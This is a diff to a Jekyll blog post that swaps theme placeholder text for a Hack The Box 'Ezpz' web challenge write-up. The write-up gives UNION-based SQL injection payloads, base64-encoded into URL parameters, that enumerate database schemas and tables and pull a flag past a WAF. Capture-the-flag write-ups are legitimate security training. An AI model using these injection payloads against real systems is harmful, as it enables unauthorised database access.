

Before and after one commit to X-Billy/Butchers, a Jekyll site: the page built from tags.html, in a window 1280 px wide and 1225 px high. Shown: the whole window at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a script that is not in the unit is left out; part of the change alters nothing that is shown.

Commit message:
Update 2010-02-02-far-far-away-behind-the-word-mountains.md

````diff
--- a/_posts/2010-02-02-far-far-away-behind-the-word-mountains.md
+++ b/_posts/2010-02-02-far-far-away-behind-the-word-mountains.md
@@ -1,135 +1,70 @@
 ---
 date: 2019-05-12T19:17:18.000Z
 layout: post
-title: Far far away behind the word mountains
-subtitle: Lorem ipsum dolor sit amet, consectetur adipisicing elit.
+title: Ezpz Web Challenge Write Up From Hack The Box
+subtitle: Its an easy web challenge, and we will butch it
 description: >-
   Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod
   tempor incididunt ut labore et dolore magna aliqua.
 image: >-
-  https://res.cloudinary.com/dm7h7e8xj/image/upload/v1559821648/theme5_wmutla.jpg
+  https://i.imgur.com/XnJ1KF4.png
 optimized_image: >-
-  https://res.cloudinary.com/dm7h7e8xj/image/upload/c_scale,w_380/v1559821648/theme5_wmutla.jpg
-category: travel
+  https://i.imgur.com/XnJ1KF4.png
+category: web
 tags:
-  - mountains
-  - travel
-  - adventure
-author: thiagorossener
+  - web
+  - sqli
+  - php
+author: Dr.D3xt3r
 paginate: true
 ---
-Cas sociis natoque penatibus et magnis <a href="#">dis parturient montes</a>, nascetur ridiculus mus. _Aenean eu leo quam._ Pellentesque ornare sem lacinia quam venenatis vestibulum. Sed posuere consectetur est at lobortis. Cras mattis consectetur purus sit amet fermentum.
+## first Part
 
-> Curabitur blandit tempus porttitor. Nullam quis risus eget urna mollis ornare vel eu leo. Nullam id dolor id nibh ultricies vehicula ut id elit.
+i open the challenge its an error lets see what we will do .
 
-Etiam porta **sem malesuada magna** mollis euismod. Cras mattis consectetur purus sit amet fermentum. Aenean lacinia bibendum nulla sed consectetur.
+![placeholder](https://i.imgur.com/qxWpyff.png)
 
---page-break--
+lets put any value in obj : `<http://docker.hackthebox.eu:30268/?obj=1>`
 
-## Inline HTML elements
+![placeholder](https://i.imgur.com/HA1dt1Z.png)
 
-HTML defines a long list of available inline tags, a complete list of which can be found on the [Mozilla Developer Network](https://developer.mozilla.org/en-US/docs/Web/HTML/Element).
+nice its work .. lets determine 'id' property : `<http://docker.hackthebox.eu:30268/?obj[id]=1>`
 
-* **To bold text**, use `<strong>`.
-* _To italicize text_, use `<em>`.
-* Abbreviations, like <abbr title="HyperText Markup Langage">HTML</abbr> should use `<abbr>`, with an optional `title` attribute for the full phrase.
-* Citations, like <cite>&mdash; Thiago Rossener</cite>, should use `<cite>`.
-* <del>Deleted</del> text should use `<del>` and <ins>inserted</ins> text should use `<ins>`.
-* Superscript <sup>text</sup> uses `<sup>` and subscript <sub>text</sub> uses `<sub>`.
+![placeholder](https://i.imgur.com/ErPIhyx.png)
 
-Most of these elements are styled by browsers with few modifications on our part.
+okaaai .. its take any input and decode it to base64 , so lets encode this `<{"ID": "1"}>`
+`<http://docker.hackthebox.eu:30268/?obj=eyAiSUQiOiAiMSJ9>`
 
---page-break--
+![placeholder](https://i.imgur.com/MkEjV2Z.png)
 
-# Heading 1
+niiice its first part of challenge and its easy . lets see what we will do next
 
-## Heading 2
+## Second Part : SQLI
 
-### Heading 3
+its being filterd by `<WAF>` so lets bypass it
 
-#### Heading 4
+![placeholder](https://i.imgur.com/UAB6mFx.png)
 
-Vivamus sagittis lacus vel augue rutrum faucibus dolor auctor. Duis mollis, est non commodo luctus, nisi erat porttitor ligula, eget lacinia odio sem nec elit. Morbi leo risus, porta ac consectetur ac, vestibulum at eros.
+I tried this payload `<{"ID": "a' UNION SELECT * FROM (SELECT 1)a JOIN (SELECT schema_name FROM information_schema.schemata)b -- a"}>`
 
-## Code
+and encode it
 
-Cum sociis natoque penatibus et magnis dis `code element` montes, nascetur ridiculus mus.
+`<http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJyBVTklPTiBTRUxFQ1QgKiBGUk9NIChTRUxFQ1QgMSlhIEpPSU4gKFNFTEVDVCBzY2hlbWFfbmFtZSBGUk9NIGluZm9ybWF0aW9uX3NjaGVtYS5zY2hlbWF0YSliIC0tIGEifQ==>`
 
-```js
-// Example can be run directly in your JavaScript console
+![placeholder](https://i.imgur.com/5EswifW.png)
 
-// Create a function that takes two arguments and returns the sum of those arguments
-var adder = new Function("a", "b", "return a + b");
+niice its working its display > "information schema tables"
 
-// Call the function
-adder(2, 6);
-// > 8
-```
+lets dipaly names of the tables :
 
-Aenean lacinia bibendum nulla sed consectetur. Etiam porta sem malesuada magna mollis euismod. Fusce dapibus, tellus ac cursus commodo, tortor mauris condimentum nibh, ut fermentum massa.
+`<http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJyBVTklPTiBTRUxFQ1QgKiBGUk9NIChTRUxFQ1QgMSlhIEpPSU4gKFNFTEVDVCB0YWJsZV9uYW1lIEZST00gbXlzcWwuaW5ub2RiX3RhYmxlX3N0YXRzKWIgLS0gYSJ9>`
 
-## Lists
+![placeholder](https://i.imgur.com/PlHywd8.png)
 
-Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus. Aenean lacinia bibendum nulla sed consectetur. Etiam porta sem malesuada magna mollis euismod. Fusce dapibus, tellus ac cursus commodo, tortor mauris condimentum nibh, ut fermentum massa justo sit amet risus.
+here we go we get the flag table
 
-* Praesent commodo cursus magna, vel scelerisque nisl consectetur et.
-* Donec id elit non mi porta gravida at eget metus.
-* Nulla vitae elit libero, a pharetra augue.
+`<http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJ1VOSU9OIFNFTEVDVCAqIEZST00gKFNFTEVDVCAxKWEgSk9JTiAoc2VsZWN0ICogZnJvbSBGbGFnVGFibGVVbmd1ZXNzYWJsZUV6UFopYiAtLSBhIn0>`
 
-Donec ullamcorper nulla non metus auctor fringilla. Nulla vitae elit libero, a pharetra augue.
+![placeholder](https://i.imgur.com/CUkmWhm.png)
 
-1. Vestibulum id ligula porta felis euismod semper.
-2. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.
-3. Maecenas sed diam eget risus varius blandit sit amet non magna.
-
-Cras mattis consectetur purus sit amet fermentum. Sed posuere consectetur est at lobortis.
-
-Integer posuere erat a ante venenatis dapibus posuere velit aliquet. Morbi leo risus, porta ac consectetur ac, vestibulum at eros. Nullam quis risus eget urna mollis ornare vel eu leo.
-
-## Images
-
-Quisque consequat sapien eget quam rhoncus, sit amet laoreet diam tempus. Aliquam aliquam metus erat, a pulvinar turpis suscipit at.
-
-![placeholder](https://placehold.it/800x400 "Large example image")
-![placeholder](https://placehold.it/400x200 "Medium example image")
-![placeholder](https://placehold.it/200x200 "Small example image")
-
-## Tables
-
-Aenean lacinia bibendum nulla sed consectetur. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
-
-<table>
-  <thead>
-    <tr>
-      <th>Name</th>
-      <th>Upvotes</th>
-      <th>Downvotes</th>
-    </tr>
-  </thead>
-  <tfoot>
-    <tr>
-      <td>Totals</td>
-      <td>21</td>
-      <td>23</td>
-    </tr>
-  </tfoot>
-  <tbody>
-    <tr>
-      <td>Alice</td>
-      <td>10</td>
-      <td>11</td>
-    </tr>
-    <tr>
-      <td>Bob</td>
-      <td>4</td>
-      <td>3</td>
-    </tr>
-    <tr>
-      <td>Charlie</td>
-      <td>7</td>
-      <td>9</td>
-    </tr>
-  </tbody>
-</table>
-
-Nullam id dolor id nibh ultricies vehicula ut id elit. Sed posuere consectetur est at lobortis. Nullam quis risus eget urna mollis ornare vel eu leo.
+GG bro its so easy .. hope its clear to u thanks for reading <3
````
